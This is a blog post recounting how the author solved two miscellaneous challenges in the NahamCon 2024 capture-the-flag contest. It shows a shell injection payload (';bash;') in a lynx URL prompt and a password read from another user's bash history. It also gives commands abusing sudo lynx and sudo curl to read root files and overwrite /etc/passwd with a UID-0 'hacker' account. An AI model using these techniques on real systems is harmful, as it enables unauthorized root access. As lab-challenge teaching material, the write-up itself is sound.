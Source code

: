 +++
title = "NahamCon CTF 2024 WriteUp - Misc"
date = "2024-05-25T21:17:45+03:00"
author = ""
authorTwitter = "" #do not include @
tags = ["CTF", "Lynx", "Curl", "Passwd"]
keywords = ["", ""]
description = ""
showFullContent = false
readingTime = false
hideComments = false
color = "" #color from the theme settings
toc = true
cover = "/img/nahamcon_ctf_2024/logo.jpeg"
+++


## Introduction
NahamCon 2024 is taking place this weekend and they had a CTF as part of the online conference. I participated with team [fr334aks](https://twitter.com/fr334aks). 

We managed position 197. We did good on Web, Mobile and WarmUps but not well on other categories like Binary Exploitation and Crypto. 

{{< image src="/img/nahamcon_ctf_2024/cert.png" alt="" position="center" style="border-radius: 8px;" >}}

It was our first CTF of the year together, so it's not a bad start from a long break. Hopefully we get back to our winning ways :).

I only solved 2 challenges in Miscellaneous category that I am writing about in this post.


## 1. SecureSurfer

{{< image src="/img/nahamcon_ctf_2024/secure_surfer_1.png" alt="" position="center" style="border-radius: 8px;" >}}

We begin with ssh access to the challenge environment, we are also provided with [securesurfer.c](/files/nahamcon_ctf_2024/securesurfer.c) file. Our objective is to gain root access to get the flag.

{{< image src="/img/nahamcon_ctf_2024/secure_surfer_2.png" alt="" position="center" style="border-radius: 8px;" >}}

When we ssh, it seems the securesurfer program is executed and we are provided with a few options. 

If we look at the code provided, the only option that takes user input is option 6 which is a url that will be loaded using lynx browser on the terminal. 

We can see that the user input is not sanitized/validated, the only check done is that the url has to begin with `https://`.

{{< image src="/img/nahamcon_ctf_2024/secure_surfer_4.png" alt="" position="center" style="border-radius: 8px;" >}}

We can therefore inject our own commands to break out of the program and into a shell. After the url we can inject the below payload.

```sh
';bash;'
```
Once lynx program is done loading the url, we get a bash shell.

{{< image src="/img/nahamcon_ctf_2024/secure_surfer_3.png" alt="" position="center" style="border-radius: 8px;" >}}

To escalate our privileges, we find that the securesurfer user can run lynx as root.

{{< image src="/img/nahamcon_ctf_2024/secure_surfer_5.png" alt="" position="center" style="border-radius: 8px;" >}}

We can then try accessing the root folder using the below command.

```sh
sudo /usr/local/bin/lynx file:///root
```
{{< image src="/img/nahamcon_ctf_2024/secure_surfer_6.png" alt="" position="center" style="border-radius: 8px;" >}}

Here we see the get flag binary, we can then download it to our local directory and execute it to get the flag.

```sh
sudo /usr/local/bin/lynx -source file:///root/get_flag_random_suffix_21505252448959 > get_flag
```
{{< image src="/img/nahamcon_ctf_2024/secure_surfer_7.png" alt="" position="center" style="border-radius: 8px;" >}}

If we wanted to get a root shell, one way is to overwrite the passwd file to add a user with root privileges.

We'll begin by creating a password hash for the user we want to add to the passwd file, the password here is **hacker**.

```sh
openssl passwd -1 -salt hacker hacker
```
Then we'll copy the current passwd file to our directory and add our new user to the file, using the below format where we specify the user with id 0 to give root privileges. The username is **hacker**.

```sh
echo 'hacker:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash' >> passwd
```

{{< image src="/img/nahamcon_ctf_2024/secure_surfer_8.png" alt="" position="center" style="border-radius: 8px;" >}}

Then we'll launch lynx and overwrite the /etc/passwd with our modified passwd file.

```sh
sudo /usr/local/bin/lynx file:///home/securesurfer/passwd
```
Once we are in lynx, we will press **P** which is the print option, and we select **Save to a local file** and press enter.

{{< image src="/img/nahamcon_ctf_2024/secure_surfer_9.png" alt="" position="center" style="border-radius: 8px;" >}}

We can then update the filename to /etc/passwd.

{{< image src="/img/nahamcon_ctf_2024/secure_surfer_10.png" alt="" position="center" style="border-radius: 8px;" >}}

Once we say yes to Overwrite the file, we can quit lynx and switch to the `hacker` user, using the password `hacker` to get a root shell.

{{< image src="/img/nahamcon_ctf_2024/secure_surfer_11.png" alt="" position="center" style="border-radius: 8px;" >}}


## 2. Curly Fries

{{< image src="/img/nahamcon_ctf_2024/curly_fries_1.png" alt="" position="center" style="border-radius: 8px;" >}}

For this challenge, we begin by ssh into the challenge environment. Our objective is to escalate to root and get the flag.

Our user has sudo privileges to run curl impersonating the user fry, however this configuration is not vulnerable to abuse.

{{< image src="/img/nahamcon_ctf_2024/curly_fries_2.png" alt="" position="center" style="border-radius: 8px;" >}}

Looking around, we find that in fry's home folder we can read the bash_history file. This gives us their password.

{{< image src="/img/nahamcon_ctf_2024/curly_fries_3.png" alt="" position="center" style="border-radius: 8px;" >}}

Switching to the user fry, we see they can run curl as root but the configuration includes a wildcard. This is different from the previous configuration and we can abuse it.

{{< image src="/img/nahamcon_ctf_2024/curly_fries_4.png" alt="" position="center" style="border-radius: 8px;" >}}

Similar to the previous challenge, we'll use curl to overwrite the passwd file with a modified version that has the hacker user with root privileges.

I set up a python web server to serve the modified passwd file and then downloaded it and perform the overwrite.

```sh
sudo /usr/bin/curl 127.0.0.1:8000/health-check -o /etc/passwd
```

{{< image src="/img/nahamcon_ctf_2024/curly_fries_5.png" alt="" position="center" style="border-radius: 8px;" >}}

## Conclusion
Thanks to John Hammond, NahamSec and the rest of challenge creators for putting together yet another great CTF this year. I didn't put in a lot of time to solve more challenges but I still had a good time.

You can catch the conference live here: [NahamCon CTF 2024 Live Stream](https://www.youtube.com/live/76mNNVVBht0?si=E2TKu8fJD6SNXFCR)

